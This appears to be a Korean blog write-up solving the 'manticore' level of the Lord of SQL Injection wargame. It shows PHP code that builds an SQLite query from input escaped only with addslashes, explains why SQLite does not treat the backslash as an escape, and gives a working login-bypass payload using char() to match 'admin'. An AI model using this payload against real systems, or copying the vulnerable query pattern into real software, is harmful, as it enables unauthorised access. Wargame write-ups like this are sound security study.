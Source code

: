 ```yaml
---
title: "[Lord of SQL Injection] LoS - manticore 문제풀이"
date: 2019-06-19
draft: false
category: [wargame]
subcategories: [lord-of-sql-injection]
tags: [Write-up, Lord of SQL Injection]
---
```


`SQLite`의 두 번째 문제이다.
이 번 문제도 간단한 편이다.  

<!--more-->

코드는 다음과 같다.  

```php
-----------------------------------------------------------------
query : select id from member where id='' and pw=''
-----------------------------------------------------------------

<?php
  include "./config.php";
  login_chk();
  $db = sqlite_open("./db/manticore.db");
  $_GET['id'] = addslashes($_GET['id']);
  $_GET['pw'] = addslashes($_GET['pw']);
  $query = "select id from member where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = sqlite_fetch_array(sqlite_query($db,$query));
  if($result['id'] == "admin") solve("manticore");
  highlight_file(__FILE__);
?>
```

언뜻 보면 이 전 문제랑 동일해 보인다.
그런데 이번에는 `addslashes`가 추가되어 있다.
처음엔 이걸 어떻게 풀어야 하나 고민했었다.
그러다 문득 든 생각이 `SQLite`에서 `\'`를 입력했을 때 과연 이걸 `\`와 `'`로 인식할까 혹은 `'`를 문자열 안에서 쓰기 위해 앞에 `\`를 삽입 한 것으로 인식할까였다.
그래서 인터넷에서 `SQLite`를 테스트 할 수 있는 사이트를 찾아 직접 실행 해 보았다.  

> [https://sqliteonline.com/](https://sqliteonline.com/)

위의 사이트에서 아래와 같이 입력 해 보았다.  

```mysql
SELECT '\'';
```

만약 `\'`를 `\`와 `'`로 인식한다면 오류가 날 것이고, `'`를 입력하기 위해 `\`를 사용한 것으로 인식한다면 `'`를 출력 할 것이다.
그 결과 아래와 같이 오류가 나는 것을 알 수 있었다.  

```plain
Uncaught Error: unrecognized token: "'\'';"
```

그리고 아까 입력 한 쿼리에서 `'`를 하나 빼면 정상적으로 `\`가 출력되었다.
즉, `addslashes`를 통해 `'` 앞에 `\`를 추가하더라도, 정상적으로 문자열을 닫을 수 있다.
그래서 문제를 풀기 위해 아래와 같은 쿼리를 사용했다.  

```plain
?id=a' or id=char(97,100,109,105,110) -- &pw=asd
```

완성되는 쿼리는 다음과 같다.  

```mysql
select id from member where id='a\' or id=char(97,100,109,105,110) -- ' and pw='asd'
```

`where`절만 살펴보면, 앞의 `id='a\'`는 `id`가 `a\`인 값을 찾는 조건이 된다.
`id`가 `a\`인 값은 없을 것이므로 `or` 뒤의 조건을 실행한다.
`id=char(97,100,109,105,110)`인데, `id='admin'`을 넣으면 `addslashes` 때문에 `id=\'admin\'`이 되기 때문에 `char()`을 사용해 `id`가 `admin`인 행을 추출하도록 했다.
이 후 뒤의 부분은 주석처리 되어 실행하지 않을 것이다.
위의 쿼리를 넘겨준 결과 문제를 풀 수 있었다.  

```php
-------------------------------------------------------------------------------------------------
query : select id from member where id='a\' or id=char(97,100,109,105,110) -- ' and pw='asd'
-------------------------------------------------------------------------------------------------

MANTICORE Clear!
<?php
  include "./config.php";
  login_chk();
  $db = sqlite_open("./db/manticore.db");
  $_GET['id'] = addslashes($_GET['id']);
  $_GET['pw'] = addslashes($_GET['pw']);
  $query = "select id from member where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = sqlite_fetch_array(sqlite_query($db,$query));
  if($result['id'] == "admin") solve("manticore");
  highlight_file(__FILE__);
?>
```

---

```plain
MANTICORE Clear!!
```